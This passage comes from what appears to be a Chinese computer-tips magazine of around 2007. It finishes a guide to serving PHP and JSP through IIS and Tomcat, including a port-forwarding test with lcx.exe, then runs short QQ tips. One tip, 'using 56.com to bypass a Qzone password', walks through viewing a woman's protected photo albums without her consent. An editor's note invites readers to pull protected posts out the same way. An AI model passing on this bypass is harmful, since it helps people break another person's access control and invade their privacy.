
index.php:

```php
<?php phpinfo(); ?>
```

访问结果如图 15。

### 3、JSP 环境测试

index.jsp:

```jsp
<%@page pageEncoding="gb2312"%>
<html><head><title></title></head>
<body>
<%String temp="Welcome to JSP world!";%>
<br><b>输出的字符串为：<%=temp%>
</body>
</html>
```

访问结果如图 16。可以看到我们并没有指定端口，成功在 80 端口上实现了 3 种脚本的访问！这里需要提醒大家的是，如果你修改了 IIS 或 Tomcat 的配置或者那两个工作文件，需要重启 IIS 和 Tomcat，有时甚至得重启 IIS 依托的服务 IIS Admin 和 W3SVC，否则你的访问会出现异常，下载网页文件、乱码、无法转发请求，还有一些未知的问题。

## 五、一点想法

按理说文章到这里应该结束了，但我还是有一些想要表达的东西。我们可以用 80 端口访问 jsp 脚本，但也仍然可以通过 8080 端口访问。如果访问 jsp 虚拟目录下一个不存在的路径或文件夹，页面会返回错误提示，但这个错误提示和一般的 IIS 的错误提示是不一样的，如图 17。









在图片左边的是经典的 Tomcat 的错误提示，而右边则是我们经常见到的 IIS 的错误 404 返回页面。其实要说明的道理就是所谓的 IIS 转发 jsp 和 Servlet 请求，只不过是转移给了 Tomcat 服务器，而不是像 php 脚本那样调用 php 环境解析，访问 jsp 脚本经过转发后 Tomcat 就成了 Web 服务器。我想说的就是这方面 jsp 和 php 解析的不同方式，就像 IIS 做了端口映射一样。我们可以做个试验，关闭 IIS 后用 lcx.exe 在本地做端口映射，看看我的想法是否正确，如图 18。

接着停止网站，仍然访问 http://localhost/jsp，可以正常访问，再看端口映射的输出信息，如图 19。

输出信息表明我作为客户端是通过 1200 端口访问 127.0.0.1 的 80 端口，然后经过 lcx.exe 转发到了 8080 端口上，成功返回页面。其实我也不敢保证这种想法完全正确，但试验结果告诉我至少应该是合理的。

## 六、In The End

好久不写东西，稍微有些手生，不过总体感觉还是比较流畅的。读完这篇唠唠叨叨的文章，不知道大家有什么样的感受，是否真的学到了什么。其实本文从技术上来说没有太多东西，主要是一些操作，跟着做谁都可以成功（根据环境的不同也许会有细微的差异，这是肯定的）。文中忽略了很多 JSP 及它们的编译环境以及 Tomcat 方面的东西，其一是这些内容不是本文所涉及的，其二是这些方面的东西，足够写好几本书了，即使挑重要的说也有很多（你可以去 Tomcat 的官方看看那些文档）。因此对于每个脚本的代码细节、IIS 和 Tomcat 的配置就不多说，只说了必要的，有兴趣的朋友可以参考相应资料，如果以后有机会我还是会介绍一些。如果大家在操作过程中遇到什么难题可以到 www.nohack.cn/bbs 上发帖提问，或者自己 Google 一下，笔者也是看了很多资料才熟识这个过程的。

【文章中涉及到的工具 jdk1.6、php5.2.2、Tomcat 6.0、isapi_redirect.dll、lcx.exe、注册表脚本、测试代码及工作文件在光盘中有收录】





> 酷玩言语：Windows 下怎么没有这样一款软件，像 Linux 下的 Pidgin 一样，可以同时登录多个 IM 账号呢？开一个软件，可以同时登录 QQ、MSN、Google Talk 等账号，同时聊天，那世界将变得多美好啊。呵呵，为什么这样的软件只有 Linux 下有呢？我们的读者中有没有编程高手？

## 利用 56.com 绕过 QZONE 空间密码偷看相册

作者：李德学

- 从本文您可以学到：
- 怎样通过 56.com 偷看 QQ 相册

今天登录一个 MM 的 Qzone 的时候发现要密码才能进入，空间里的文章是看不了了，利用前几天为 CHINAREN 班级制作班级视频时发现的 56.com 的功能“导入 QQ 相册”，想办法看看她的相册也满足我的心愿，嘿嘿……

先登录视频分享网站 56.com，点击“视频相册”按钮，进入制作视频页面，会看见右边有“导入 QQ 相册”选项。如图 1 所示。

在右边输入 MM 的 QQ 号码，点“开始导入”，等一会就能看到相册了。如图 2。





选择要导入的相册并确定，就可以看到该相册的图片，如图 3。

因为是视频相册的形式，默认是有那些边框特效的，把图片的很多地方都遮住了，我们把遮住画面的特效去掉就能看得清楚了，在“超级特效”和“炫彩边框”里都选择“取消特效”就行了。如图 4 所示。





到此就把 MM 的相册偷看到了，不过美中不足的是设置成需要密码访问的相册不能导入。

> 编辑点评：感谢 56 为我们提供了这么好的一个功能，由此看来，所谓的 QQ 空间的访问密码不是通过合法途径询问的，仅仅是在你访问时设置了一道“门”而已。如果真是这样的话，那理论上不光相册，文章也是可以通过一定的方法拿出来的，大家不妨试试看。

## 去除烦人的 QQ 首页广告

从本文您可以学到：

怎样手工屏蔽掉 QQ 的广告

每次登录 QQ 的时候，不管你是不是会员都会有广告出来。对于电脑性能不好的用户来说，如果再开着别的东西，再上 QQ 的话本来就很卡了，再来个广告，那可真是火上浇油！今天就告诉大家一个解决的办法。

首先，找到你安装 QQ 的目录。

- 1. 打开 QQ 安装后的文件夹，单击菜单栏“工具”→“文件夹选项”，在打开的“文件夹选项”对话框中选择“查看”选项卡，在“高级设置”框中把“隐藏已知文件类型的扩展名”项前边的勾去掉。
- 2. 在 QQ 安装后的文件夹中找到 **QQexternal.exe** 文件，把该文件删除，因为 QQ 的新闻首页就是由 **QQexternal.exe** 文件控制的。
- 3. 在 QQ 安装后的文件夹中的空白地方右键单击，选择“新建”→“文本文档”，也就是新建一个空的文本文件。
- 4. 然后右键单击新建的文本文件，选择“重命名”，把新建的文件名改为 **QQexternal.exe**，在提示“如果改变文件扩展名，会导致文件不可用。确实要更改吗？”时直接点“是”即可。这步我们其实是采取“偷梁换柱”的方法制作了一个假的 **QQexternal.exe** 文件占着地方。
- 5. 进入到 **ad** 文件夹中，把 **ad** 文件夹下的所有内容都删除。然后再返回到上层文件夹中，右键单击 **ad** 文件夹，选择“属性”，在“ad 属性”对话框中的“常规”选项卡下把“只读”属性勾选上，点“确定”退出。

这样，那烦人的广告就被我们拒之门外了。

> **编辑点评：**
> QQ 的各个功能都是以模块的形式组合到一起工作的，所以要更改或者废除某一项功能并不是很难。以前的文章中就提到过通过 **QQexternal.exe** 来隐藏和加载木马。同理，QQ 的其他功能，如果你不喜欢，也可以自己找方法去掉。

## 快速查找 QQ 好友有没有删除你

从本文您可以学到：

怎样知道自己在不在对方的好友列表

聊 QQ 久了，Q 民们经常会把不认识，或者暂时忘记来历的人从 QQ 上删除，要么拉进黑名单，要么拉进陌生人。我们被拉进黑名单好说，完全重启一下 QQ，双方就看不见了。但面对那么多的好友，有哪些 Q 友是把我们删除好友的呢？既然把我们拉进了陌生人，难道我们还要用热脸对冷屁股吗？哪些 Q 友把我们删进陌生人了，哪些 Q 友笑里藏刀，现在我就教大家把他找出来，我们进行反击，把对方也删除，呵呵。

- 一、打开你 QQ 上逐个好友的即时对话框，在好友的 QQ 秀形象那里，右键选择“与对方的 QQ 秀合照”。
- 二、这时会弹出一个网页，如果显示两人 QQ 秀的合照，那么，恭喜你，对方还当你是朋友。如果显示“您不是对方的好友”，如图 1。那么，我们心里自然明白了。立即将对方也删除吧！这是 2007 版我所能找到的最快的方法了。



> **编辑点评：**
> MSN 里早就有这个功能了，QQ 为什么不效仿一下呢？不过作者给我们提供了一种很好的方法，以后你就知道你是不是对方的好友了。

## 巧捉 QQ 会员头像

从本文您可以学到：

自己通过截图盗取头像

最近女友 QQ 号刚升太阳，兴奋之余，她整天对着百度、谷歌搜索 QQ 头像，后来，她看中 QQ 会员里一个小猴头像；那个头像是为 QQ 会员提供的。显然是要收费的，我可没钱充会员；但为了女友，我决定一定要拿下这个头像！

其实方法很简单，什么工具软件都不需要，只用 Windows 自带的画图工具即可。

首先要让我们的屏幕上出现那个小猴头像，然后按一下键盘上的“Print Screen”键，这样我们就对全屏幕截了一次图，然后进入开始菜单，依次进“程序”→“附件”→“画图”（或者直接在开始菜单的运行中输入“mspaint”）。打开程序后，再把鼠标放在绘图区，接着右键粘贴，如图 1。

刚才我们截的全屏图就在程序里了，然后我们用剪裁工具，对准那个头像，把它剪下来，再复制一遍。




然后我们只需要再新建一个画图，按上述方法，把头像粘贴出来，如图 2。

接着调节图像大小，再保存成 jpg 格式输出（这样有利于减少失真度）。哈哈，大功告成了，最后我们将图像传上去。如图 3 所示，跟会员提供的头像一模一样，简直是得来全不费工夫！另外我们还可以用这种方法把我们在屏幕上任何可能看到的美图都截下来换成我们的图像！那么，您是不是也该考虑一下换掉那过时的头像了呢？

## 免费领取 QQ 秀

我进“经典男装”的网站给大家看看，如图 1。选择好你喜欢的风格再点提交，它会根据你提交的风格赠送几款风格的 QQ 秀让你选择，如图 2。下面不用我多说了吧！赶快把它穿起来吧！

好消息啊！公布个领取 QQ 秀的网站啦！就是新 QQ 注册 QQ 秀时的网站哦！

http://show8.qq.com/my/inc/reg02.html?style=0&sex=M

<经典男装>

http://show8.qq.com/my/inc/reg04.html?character=&style=0&sex=F

<经典女装>



